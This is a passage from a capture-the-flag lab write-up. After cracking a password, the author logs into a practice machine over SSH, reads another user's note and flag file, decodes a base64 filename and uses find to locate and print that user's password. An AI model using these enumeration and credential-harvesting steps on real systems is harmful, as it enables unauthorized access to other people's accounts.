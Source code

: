 After a (considerably long) wait we get the password "leahcim1996"

So we get into SSH:

``` bash
ssh michael@192.168.56.110

The authenticity of host '192.168.56.110 (192.168.56.110)' can't be established.
ED25519 key fingerprint is SHA256:6amN4h/EjKiHufTd7GABl99uFy+fsL6YXJJRDyzxjGE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.110' (ED25519) to the list of known hosts.
michael@192.168.56.110's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Nov 27 21:01:13 2023 from 10.0.2.6
michael@animetronic:~$ 
michael@animetronic:~$ sudo -l
[sudo] password for michael: 
Sorry, user michael may not run sudo on animetronic.
```


We explore briefly:

``` bash
michael@animetronic:~$ cat .bash_history 
exit
michael@animetronic:~$ cd ..
michael@animetronic:/home$ ls
henry  michael
michael@animetronic:/home$ cd henry/
michael@animetronic:/home/henry$ ls
Note.txt  user.txt
michael@animetronic:/home/henry$ cat Note.txt 
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
michael@animetronic:/home/henry$ cat user.txt 
0833990328464efff1de6cd93067cfb7
```

Lets find that file (which is henrypassword.txt in b64 btw):

``` bash
find / -iname henrypassword.txt 2>/dev/null

cat /home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt

IHateWilliam
```

